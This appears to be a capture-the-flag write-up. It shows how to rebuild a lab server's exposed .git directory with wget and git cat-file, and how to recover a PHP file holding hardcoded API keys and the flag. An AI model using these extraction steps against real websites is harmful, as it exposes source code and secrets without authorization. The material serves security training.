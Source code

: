 ### Reflecting remote files and folders using local Git repository
https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git

### Create dummy Git folder

```
$ git init
```


### Download the git log from the site.
`$ wget http://10.10.X.X/.git/logs/HEAD` 
`$ cat HEAD`
![[head.png]]

#### 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Object
79 = Directory
c9539b6566b06d6dec2755fdf58f5f9ec8822f = Object

The developer removed the sensitive data on the object **b2f776a52fe81a731c6c0fa896e7f9548aafceab**. 
`79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100 commit: removed sensitive data`


You can find the sensitive data in the object **79c9539b6566b06d6dec2755fdf58f5f9ec8822f**.
`93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100 commit: added basic prototype of api gateway`


### Extract the object from the target machine
- Create a directory called 79 into the **objects** dir.
- Download the "c9539b6566b06d6dec2755fdf58f5f9ec8822f" file to 79 dir.

```
$ mkdir 79
$ cd 79
$ wget http://10.10.X.X/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
### Read the content of the tree object 1
```
$ cd 79
$ git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
```
> tree **51d63292792fb7f97728cd3dcaac3ef364f374ba**
> parent 93bab0a450caaa8c4d2632703636eccc69062bb4
> author Context Information Security <recruitment@contextis.com> 1568122828 +0100
> committer Context Information Security <recruitment@contextis.com> 1568122828 +0100

You got a tree **object 51d63292792fb7f97728cd3dcaac3ef364f374ba**
- Create a directory called 51 into the **objects** dir.
- Download the "51d63292792fb7f97728cd3dcaac3ef364f374ba" file to 51 dir.
```
$ mkdir 51
$ cd 51
$ wget http://10.10.X.X/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba
```

### Read the content of the tree object 2
```
$ cd 51
$ git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba
```

> 100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4    api.php
> 100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43    functions.php
> 100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26    home.php
> 100755 blob 470cac65fcd0f8556f13997957a331628482aa96    index.html
> 100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83    index.php
> 100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d    info.php

The sensitive data is stored inside api.php or object **2229eb414d7945688b90d7cd0a786fd888bcc6a4**.

- Create a directory called 22 into the **objects** dir.
- Download the "29eb414d7945688b90d7cd0a786fd888bcc6a4" file to 22 dir.

```
$ mkdir 22
$ cd 22
$ wget http://10.10.X.X/.git/objects/2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

### Read the content of the tree object 3
```
$ cd 22
$ git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4
```

```
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "**GITtFi80llzs4TxqMWtCotiTZpf0HC**"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>                                                                                                                                                                           
```

The GIT flag is GITtFi80llzs4TxqMWtCotiTZpf0HC.